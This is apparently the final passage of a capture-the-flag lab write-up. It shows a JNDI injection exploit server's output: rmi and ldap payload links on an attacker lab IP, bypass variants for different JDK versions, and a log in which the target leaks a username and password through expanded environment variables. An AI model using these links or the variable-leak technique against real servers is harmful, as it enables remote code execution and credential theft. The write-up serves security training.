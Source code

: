 ```sh
[LDAP_ADDR] >> 10.10.14.12
[COMMAND] >> open /System/Applications/Calculator.app
----------------------------JNDI Links---------------------------- 
Target environment(Build in JDK 1.5 whose trustURLCodebase is true):
rmi://10.10.14.12:1099/uun1um
ldap://10.10.14.12:389/uun1um
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://10.10.14.12:1099/qrjobt
ldap://10.10.14.12:389/qrjobt
Target environment(Build in JDK 1.6 whose trustURLCodebase is true):
rmi://10.10.14.12:1099/ryan18
ldap://10.10.14.12:389/ryan18
Target environment(Build in JDK - (BYPASS WITH EL by @welk1n) whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://10.10.14.12:1099/n8pron
Target environment(Build in JDK - (BYPASS WITH GROOVY by @orangetw) whose trustURLCodebase is false and have Tomcat 8+ and Groovy in classpath):
rmi://10.10.14.12:1099/2hd7qw
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://10.10.14.12:1099/a0omdh
ldap://10.10.14.12:389/a0omdh

----------------------------Server Log----------------------------
2022-01-03 21:42:01 [JETTYSERVER]>> Listening on 10.10.14.12:8180
2022-01-03 21:42:01 [RMISERVER]  >> Listening on 10.10.14.12:1099
2022-01-03 21:42:02 [LDAPSERVER] >> Listening on 0.0.0.0:389
2022-01-03 21:43:10 [LDAPSERVER] >> Reference that matches the name(PENCER--USER:ippsec:PASSWORD:log4j_env_leakage) is not found.
2022-01-03 21:43:10 [LDAPSERVER] >> Reference that matches the name(PENCER--USER:ippsec:PASSWORD:log4j_env_leakage) is not found.
2022-01-03 21:43:10 [LDAPSERVER] >> Reference that matches the name(PENCER--USER:ippsec:PASSWORD:log4j_env_leakage) is not found.
```

As you can see when it recieves the JNDI string from the box it doesn't know what to do with it because there is no payload set to respond with. Being helpful it shows us what was received which includes those expanded variables so we can see the contents of them.

That's three ways to get the root flag on this box. I hope you enjoyed it, see you next time.

